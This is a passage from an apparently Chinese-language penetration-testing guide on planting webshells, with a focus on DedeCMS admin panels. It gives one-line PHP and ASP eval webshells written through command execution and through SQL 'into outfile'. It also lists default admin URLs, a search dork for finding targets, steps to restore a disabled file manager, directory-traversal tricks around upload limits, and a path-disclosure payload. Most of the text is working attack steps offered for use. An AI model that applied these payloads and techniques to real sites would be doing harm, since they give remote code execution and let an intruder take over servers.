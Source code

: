 php包含  

```
`<?php``include('123.jpg');``?>`
```

10\. 命令执行  

```
`echo ^<^?php @eval($_POST['cmd']);?^>^ > c:\1.php``^<^%eval request("cracer")%^>^ > c:\1.php``# 需要知道网站路径`
```

  

===

三、常见cms后台拿shell
===============

1.dedecms
---------

dedecms版本：http://192.168.1.10:8030/data/admin/ver.txt  
默认后台：http://192.168.1.10:8030/dede/

```
`# dedecms后台一般都被修改不好找，可借助google语法：``Powered byDedeCMSV57_GBK_SP2 site:xx.com`
```

一、后台文件上传  
进入后台：核心》附件管理》文件式管理器》可直接修改源码或者上传shell![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

写马  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

连接![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

如果目标“文件式管理器”接口被阉割，也许只是单纯的在前端删除了入口。可以修改js调用：

```
`media_main.php?dopost=filemanager``#找到任意按钮修改js代码如图，即可再次调用文件管理`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

如果权限被限制无法上传到upload以外的目录。通过修改名称跨越目录，绕过权限封锁  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

二、数据库执行拿shell  

sql命令行工具》写shell  

```
`#需要得到网站的物理路径``select "<?php @eval($_POST[x]);?>" into outfile 'C:\\inetpub\\getshell\\DedecmsV53-UTF8-Final\\DedecmsV53-UTF8-Final\\x.php'``#dede暴路径方法``payload:http://xxx.com/plus/feedback.php?aid=1&dsql=xxx`
```
